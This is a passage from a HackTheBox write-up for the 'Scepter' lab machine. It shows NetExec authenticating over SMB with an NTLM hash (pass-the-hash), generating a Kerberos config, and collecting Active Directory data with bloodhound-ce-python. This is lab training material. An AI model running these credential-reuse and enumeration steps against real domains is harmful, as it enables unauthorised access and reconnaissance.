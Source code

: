 This step is not always necessary, making preparations are always good. 

`/etc/hosts` file

`10.10.11.65     dc01.scepter.htb scepter.htb dc01`

`krb5.conf` file

```bash
┌──(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# nxc smb dc01.scepter.htb -u d.baker -H '18b5fb0d99e7a475316213c15b6f22ce' --generate-krb5-file krb5.conf
SMB         10.10.11.65     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.65     445    DC01             [+] scepter.htb\d.baker:18b5fb0d99e7a475316213c15b6f22ce 

┌──(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# cat krb5.conf 

[libdefaults]
    dns_lookup_kdc = true
    dns_lookup_realm = true
    default_realm = SCEPTER.HTB

[realms]
    SCEPTER.HTB = {
        kdc = dc01.scepter.htb
        admin_server = dc01.scepter.htb
        default_domain = scepter.htb
    }

[domain_realm]
    .scepter.htb = SCEPTER.HTB
    scepter.htb = SCEPTER.HTB
```

Updating clock

`ntpdate 10.10.11.65`


``
## Bloodhound Analysis

Gathering bloodhound data with `bloodhound-ce-python`

`bloodhound-ce-python -d scepter.htb -ns 10.10.11.65 -u 'd.baker' --hashes :18b5fb0d99e7a475316213c15b6f22ce --zip -c All`

![](/assets/images/HTB-Scepter/Pasted_image_20250718064838.png)
